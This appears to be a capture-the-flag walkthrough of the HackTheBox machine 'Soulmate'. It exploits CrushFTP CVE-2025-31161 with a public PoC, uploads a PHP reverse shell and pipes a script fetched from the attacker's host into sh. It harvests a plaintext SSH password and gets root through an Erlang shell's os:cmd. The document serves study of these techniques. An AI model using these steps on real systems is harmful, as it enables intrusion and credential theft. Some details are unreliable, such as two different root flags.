









### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sCV --min-rate=10000 $target
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soulmate.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

we can see port `22` opened for `ssh`, and port `80` for http server. let's add `soulmate.htb` to our `/etc/hosts`
```bash
10.10.11.86     soulmate.htb
```



### Find hidden vhost and exploit CVE-2025-31161

First we start with enumerating the website, we register and login, and try to upload webshell. none of our tries it working, so i moved to use `gobuster` to find hidden files, however, nothing special pops up.

Then, I used `gobuster` to find virtual hosts, using this command, `--ad` for append domain, to prepend the subdomain to the full domain. `-xs` for ignoring status code `400`:
```bash
┌──(agonen㉿kali)-[~/htb/Soulmate]
└─$ gobuster vhost -u http://soulmate.htb/ --ad -xs 400 -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://soulmate.htb/
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
ftp.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]
FTP.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]
Progress: 87662 / 87662 (100.00%)
===============================================================
Finished
===============================================================
```

As we can see, it found virtual host `ftp.soulmate.htb`, let's add it to our `/etc/hosts`:
```bash
10.10.11.86     ftp.soulmate.htb
```

Now, we access this page:


We can detect the version by looking at the source code, and search for strings like `?v=` or `?version=` or `?build=`.
after some search, we find this, `?v=11.W.657-2025_03_08_07_52`, so the version is `11.W.657`.

I searched for `crushftp 11.W.657 exploits` and find this page: https://www.huntress.com/blog/crushftp-cve-2025-31161-auth-bypass-and-post-exploitation.
I checked the poc in this website, and it worked, so it's vulnerable to this CVE. 



I found more advanced PoC, in this github repo https://github.com/Immersive-Labs-Sec/CVE-2025-31161.

Let's use this to create a new user:
```bash
┌──(agonen㉿kali)-[~/htb/Soulmate/CVE-2025-31161]
└─$ python3 cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --new_user elicopter770 --password elicopter770
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: elicopter770
   [*] Password: elicopter770.                                     
```

As we can use, the user got created, let's login using this new user, username `elicopter770` password `elicopter770`


and we are in.



### reset Ben's password and upload webshell

We are able to manage the users. We can see that `ben` has `VFS`, which is virtual file system. 
also, we can notice the `webProd` dir inside "User's staff` directory, and that it contains the whole server we saw when we start the challenge.
the idea is to reset ben's password, upload our `webshell` via ben's account, an get a remote shell.

so, we reset ben's password to be `1234`.



we can copy the `webshell` from `/usr/share/webshells/php/php-reverse-shell.php`, and then edit the `ip` and `port`, to point to our listening socket:



next, we will upload the `webshell` and set a listening port:
```bash
nc -nvlp 770
```



Now, let's access the webshell we uploaded, in this url, http://soulmate.htb/php-reverse-shell.php



and of course, pasting the regular commands:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Privilege escalate to ben, find the password inside /usr/local/lib/erlang_login/start.escript

we want to get some privilege escalation, so let's execute our lovely `linpeas.sh`. 

first, set up the http server in our local machine
```bash
┌──(agonen㉿kali)-[~/htb/Soulmate]
└─$ ls    
CVE-2025-31161  linPEAS.sh  php-reverse-shell.php
                                                                                                                                                 
┌──(agonen㉿kali)-[~/htb/Soulmate]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

then, take it on the remote machine, we can pipe it to `sh` because this is a script language, like python. 
```bash
www-data@soulmate:/tmp$ curl http://10.10.16.49:8081/linPEAS.sh | sh
```

However, we don't find anything interesting, so let's continure explore mannualy.

The website holds `.db` file, inside `data` folder, we'll analyze it in our local machine:
```bash
www-data@soulmate:~/soulmate.htb/data$ ls 
soulmate.db
www-data@soulmate:~/soulmate.htb/data$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.16.49 - - [22/Oct/2025 11:56:50] "GET /soulmate.db HTTP/1.1" 200 -
```

In our local machine.
First, get it, view what type it using `file`:
```bash
┌──(agonen㉿kali)-[~/htb/Soulmate]
└─$ curl http://$target:8081/soulmate.db -o soulmate.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 16384  100 16384    0     0  18964      0 --:--:-- --:--:-- --:--:-- 19207
                                                                                                                                                 
┌──(agonen㉿kali)-[~/htb/Soulmate]
└─$ file soulmate.db 
soulmate.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 5, database pages 4, cookie 0x1, schema 4, UTF-8, version-valid-for 5
```

we can notice this is `sqlite3` file, let's open it and fetch the data, in this case we can find the hash of the password for `admin`
```bash                                                                                                                                   
┌──(agonen㉿kali)-[~/htb/Soulmate]
└─$ sqlite3 soulmate.db 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .databases;
Error: unknown command or invalid arguments:  "databases;". Enter ".help" for help
sqlite> .databases
main: /home/agonen/htb/Soulmate/soulmate.db r/w
sqlite> .table
users
sqlite> select * from users;
1|admin|$2y$12$u0AC6fpQu0MJt7uJ80tM.Oh4lEmCMgvBs3PwNNZIR7lor05ING3v2|1|Administrator|||||2025-08-10 13:00:08|2025-08-10 12:59:39
sqlite> 
```
Let's try to crack the blowfish hash `$2y$12$u0AC6fpQu0MJt7uJ80tM.Oh4lEmCMgvBs3PwNNZIR7lor05ING3v2`.

I tried and didn't manage to crack the password... let's go back to the `linepeas.sh`

I execute it again, and notice this:


```bash
root         946  0.0  1.8 2255024 72896 ?       Ssl  10:03   0:04 /usr/local/lib/erlang_login/start.escript -B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/erlang/erts-15.2.5/bin -progname erl -- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- -- -kernel inet_dist_use_interface {127,0,0,1} -- -extra /usr/local/lib/erlang_login/start.escript
root        1031  0.0  0.0   2784   980 ?        Ss   10:03   0:00  _ erl_child_setup 1024
```

As we can notice, the file `/usr/local/lib/erlang_login/start.escript` is was executed by `root`, and it has something to do with `ssh`. Let's give a look over this `.escript` file.

```bash
www-data@soulmate:/$ cat /usr/local/lib/erlang_login/start.escript
#!/usr/bin/env escript
%%! -sname ssh_runner

<REDACTED>

        {auth_methods, "publickey,password"},

        {user_passwords, [{"ben", "HouseH0ldings998"}]},
        {idle_time, infinity},                                                                                                                                                               
        {max_channels, 10},                                                                                                                                                                  
        {max_sessions, 10},                                                                                                                                                                  
        {parallel_login, true}                             
        ]) of
        {ok, _Pid} ->
            io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
        {error, Reason} ->
            io:format("Failed to start SSH daemon: ~p~n", [Reason])
                                                                                                                                  

<REDACTED>
```

as we can see, the password for the user `ben` is `HouseH0ldings998`.

We can use `ssh` to connect to `ben`, and then we get the user flag:
```bash
┌──(agonen㉿kali)-[~/htb/Soulmate]
└─$ ssh ben@$target
ben@10.10.11.86's password: 
Last login: Wed Oct 22 12:43:49 2025 from 10.10.16.49
ben@soulmate:~$ id
uid=1000(ben) gid=1000(ben) groups=1000(ben)
ben@soulmate:~$ cat user.txt 
1feca2d1ca1802aa8c8ff6e8e82c8961
```

### Privilege Escalation

I used `linpeas.sh`, and so that port `2222` is opened, here i'll show using `ss`:
```bash
ben@soulmate:~$ ss -lt
State                 Recv-Q                Send-Q                               Local Address:Port                                   Peer Address:Port               Process                
LISTEN                0                     5                                        127.0.0.1:2222                                        0.0.0.0:*                                         
```

As we remember, the file `/usr/local/lib/erlang_login/start.escript` contains these lines:
```bash
        {ok, _Pid} ->
            io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
        {error, Reason} ->
            io:format("Failed to start SSH daemon: ~p~n", [Reason])
```

In this is the output of `ps aux`, we can see this script was executed by `root` user, so if we able to gain command execution, we have root command execution:
```bash
ben@soulmate:~$ ps aux | grep ssh
<REDACTED>

root      125264 17.0  1.6 2252168 67184 ?       Ssl  16:59   0:00 /usr/local/lib/erlang_login/start.escript -B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/erlang/erts-15.2.5/bin -progname erl -- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- -- -kernel inet_dist_use_interface {127,0,0,1} -- -extra /usr/local/lib/erlang_login/start.escript
```

So, there is probably some ssh daemon listening on port `2222`. we can verify this using `nc`:
```bash
ben@soulmate:~$ nc 127.0.0.1 2222
SSH-2.0-Erlang/5.2.9
```

Let's connect using our password `HouseH0ldings998`:
```bash
ben@soulmate:~$ ssh ben@localhost -p 2222
ben@localhost's password: 
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1> 
```

as we can see, we got `Eshell`, which is shell based on `Emacs` language, a script language like python.

We start with `help().`, to show available commands:
```bash
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)
(ssh_runner@soulmate)1> help().

** shell internal commands **

<REDACTED>

m()        -- which modules are loaded
m(Mod)     -- information about module <Mod>

q()        -- quit - shorthand for init:stop()
<REDACTED>

```

Then, we want to see which modules we can load, i think it's like `import` in python.
```bash
(ssh_runner@soulmate)2> m().
Module                File

<REDACTED>

os                    /usr/local/lib/erlang/lib/kernel-10.2.5/ebin/os.beam

<REDACTED>

ok
```

Okay, we will load the `os` module, let's look what can we do and how to execute commands.

```bash
(ssh_runner@soulmate)3> m(os).
Module: os
MD5: 594e9e9b7ffbf8b367e6cdc48f1e88e1
Object file: /usr/local/lib/erlang/lib/kernel-10.2.5/ebin/os.beam
Compiler options:  [debug_info,
                    {i,"/buildroot/otp/lib/kernel/src/../include"},
                    warn_missing_doc_function,warn_missing_doc_callback,
                    warn_missing_spec_documented]
Exports: 
cmd/1                         module_info/1
cmd/2                         perf_counter/1
env/0                         perf_counter/0
find_executable/1             putenv/2
find_executable/2             set_signal/2
getenv/0                      system_time/1
getenv/2                      system_time/0
getenv/1                      timestamp/0
getpid/0                      type/0
internal_init_cmd_shell/0     unsetenv/1
module_info/0                 version/0
ok
```

Let's use the `cmd/1`, in the format of: `os:cmd("command").`
```bash
(ssh_runner@soulmate)4> os:cmd("id").
"uid=0(root) gid=0(root) groups=0(root)\n"
(ssh_runner@soulmate)5> os:cmd("cat /root/root.txt").
"544a1035a522e3e063668d29f2c27332\n"
```

and we got the root flag. 

**User Flag:*****`1feca2d1ca1802aa8c8ff6e8e82c8961`***

**Root Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
